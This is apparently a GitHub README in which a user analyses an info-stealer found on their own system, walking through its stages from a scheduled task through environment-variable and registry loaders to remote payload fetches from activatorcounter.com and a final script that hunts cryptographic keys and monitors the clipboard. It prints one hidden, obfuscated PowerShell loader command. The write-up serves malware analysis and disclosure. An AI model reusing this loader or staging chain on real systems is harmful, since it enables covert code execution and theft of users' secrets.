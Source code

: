 # found-infosteal
This is a repository of files associated with an info-stealer I found in my own system. It had a scheduled task, that would every 30s attempt to send stolen data to an endpoint on the domain `activatorcounter.com`.

The order of execution was as such: 
1. scheduler
2. invoke-from-env.ps1
3. invoke-from-registry.ps1
4. invoke-from-remote.ps1
5. invoke-from-remote-2.ps1
6. info-steal.ps1

## 1. Invoke with ENV
I've noticed some weird usage of CPU and network communications on my machine. After a short investigation, and triangulating the process responsible using `Wireshark`, `procmon` and `procexp` i noticed a powershell process tied to the scheduler. The command for the powershell process read:
```powershell
"Powershell.exe" -WindowStyle Hidden -Command "$envVar = [Environment]::GetEnvironmentVariable('9964a802'); $charArray = $envVar.ToCharArray(); [Array]::Reverse($charArray); $rev = -join $charArray; $ExecutionContext.InvokeCommand.InvokeScript($rev)"
```

The value of `-Command` is the contents of the file `invoke-from-env.ps1`.

This command retrieves the contents of an environment variable `9964a802` (which is a weird name for a variable like that), and executes the script contained within. The contents of that script are located within `invoke-from-registry.ps1`;

## 2. Invoke from Registry
The command from the environment variable finds and executes the script contained within a registry key under `HKLM:\SOFTWARE\Microsoft\ALG` named `9964a802`. The contents of that registry key are within the file `invoke-from-remote.ps1`.

## 3. Invoke from Remote
This is a more involved script which checks a set of domains, obfuscated by splicing (within these domains is the domain `activatorcounter.com`), for updates using dns. On update, it retrieves another script from the domain and executes it. The contents of that script are located within `invoke-from-remote-2.ps1`.

## 4. Invoke from Remote 2
This script retrieves the final info-stealer script in an encrypted form from `https://activatorcounter.com/connect` using a Rest method. Then it decrypts it using an embedded DFC key. Finally, the script is executed. The contents of that script are within `info-steal.ps1`

## 5. Info-Steal
This script is the final stage of execution. It scans for cryptographic keys and monitors the clipboard. Huge privacy risk.
